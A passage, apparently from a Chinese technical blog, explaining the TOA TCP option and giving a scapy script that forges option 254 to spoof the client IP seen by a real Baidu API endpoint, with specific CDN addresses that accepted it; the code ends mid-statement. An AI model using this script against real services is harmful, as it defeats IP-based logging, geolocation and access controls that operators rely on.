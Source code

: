 ```C++
  __u32 ip;
};
```

TOA 最大的优势在于，其并没有变更协议，不会有兼容性问题。比如 TCP Server 如果不支持 TOA 协议，它依旧可以正常工作，只是获取不到真实的用户 IP 信息。

通过scapy库来实现，设置fake_ip，以及target_ip，target_port，这里我一开始是直接通过gethostbyname("qifu-api.baidubce.com")这样去获取的ip，发现有时候可行可不行，后来多地ping了下发现这个域名有7个cdn，经过测试只有112.34.112.38，182.61.62.106可行，应该是其他cdn不支持toa传递ip。

```python
from scapy.all import *
import socket
import struct
import os

# 目标域名和端口
target_ip = '112.34.112.38'
target_port = 80

# 伪造的源 IP 地址
fake_ip = '111.111.111.222'

# 将伪造的 IP 地址转换为整数
fake_ip_as_int = struct.unpack("!I", socket.inet_aton(fake_ip))[0]

# 创建自定义的 TCP 选项
option_254 = (254, b'\x00\x50' + struct.pack('!I', fake_ip_as_int))

# 创建 IP 层
ip_layer = IP(dst=target_ip)

# 创建 TCP 层，不添加 TCP 选项
syn = TCP(sport=RandShort(), dport=target_port, flags='S')

# 组合 IP 层和 TCP 层，发送 SYN 数据包
syn_ack = sr1(ip_layer/syn)

# 检查是否收到 SYN+ACK 数据包
if syn_ack[TCP].flags == 'SA':
    # 创建 ACK 数据包，也不添加 TCP 选项
    ack = TCP(sport=syn_ack[TCP].dport, dport=target_port, flags='A', seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq + 1)
    
    # 发送 ACK 数据包
    send(ip_layer/ack)

    # 创建 HTTP 请求，只包含 Host 头部    
    http_request = 'GET /ip/local/geo/v1/district HTTP/1.1\r\n' \
                   'Host: qifu-api.baidubce.com\r\n\r\n'

    # 创建 HTTP 数据包，这次在 TCP 层添加自定义的选项
    http_packet = ip_layer / TCP(sport=syn_ack[TCP].dport, dport=target_port, flags='PA', seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq + 1, options=[option_254]) / Raw(load=http_request)


    # 接收 HTTP 响应
    http_response = sr1(http_packet)

    # 打印 HTTP 响应
    if http_response:
        print(http_response.show())
    else:
        print('No response')
else:
```